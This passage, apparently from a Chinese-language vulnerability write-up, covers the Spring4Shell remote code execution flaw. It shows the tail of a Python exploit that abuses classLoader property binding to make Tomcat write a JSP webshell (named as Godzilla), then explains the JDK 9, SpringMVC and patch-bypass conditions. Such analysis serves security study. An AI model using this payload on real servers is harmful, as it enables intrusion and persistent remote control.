 ```python
    "class.module.classLoader.resources.context.parent.pipeline.first.directory": "webapps/ROOT",
    "class.module.classLoader.resources.context.parent.pipeline.first.prefix": "index0000",
    "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat": ""
}

requests.post(url="http://localhost:8080/SpringCoreRce/", data=data, headers=headers)
```

> 由于%号会被过滤，因此你必须使用另外的方式将这个符号传入，这里我们通过引用%{springcore}i，即使用Header属性来传递%号。

你可以修改其中的jsp_shell，这里的jsp_shell实际为哥斯拉的WebShell。

#### 深究

* 为什么JDK8不行？

  * Module机制是JDK 9引入的，使用JDK 8编译项目并启动Tomcat，User.getClass()返回的Class对象中都没有getModule()方法，更别提获取Module对象了。

  ![image-20220404145749161](./image-20220404145749161.png)

  

* 为什么是SpringMVC，SpringBoot行不行？

  * ClassLoader不一样了，SpringMVC的ClassLoader是`ParalleWebappClassLoader`，而SpringBoot使用的是`AppClassLoader`，`AppClassLoader`没有`getResources()`方法，无法拿到`resources`属性。

* 为什么不通过Class.classLoader拿到classLoader，而是选择使用Module去拿？

  * 这个是之前的补丁，`CachedIntrospectionResults`的构造函数中：

  ```java
  private CachedIntrospectionResults(Class<?> beanClass) throws BeansException {
  		//...
  			// This call is slow so we do it once.
  			PropertyDescriptor[] pds = this.beanInfo.getPropertyDescriptors();
  			for (PropertyDescriptor pd : pds) {
  				if (Class.class == beanClass &&
  						("classLoader".equals(pd.getName()) ||  "protectionDomain".equals(pd.getName()))) {
  					// Ignore Class.getClassLoader() and getProtectionDomain() methods - nobody needs to bind to those
  					continue;
  				}
  		//...
  	}
  ```

  显然class是一个Class对象，如果我们接下来的属性名是classLoader，那么就会被忽略，从这里可以看到是没有办法直接使用`class.classLoader`去拿到Tomcat的StandardHost对象。

  但是`class.module`本身不是一个Class对象，因此`Class.class == beanClass`此处就会判断为False，自然不会进行后面的检测，从而绕过了。

### 总结

能够利用的条件比较的苛刻：

* `JDK>=9` (引入Module系统)
* SpringMVC (`ClassLoader`为`ParalleWebappClassLoader`)
* 请求接口为控制器方法
* 接口参数为POJO (参数绑定)

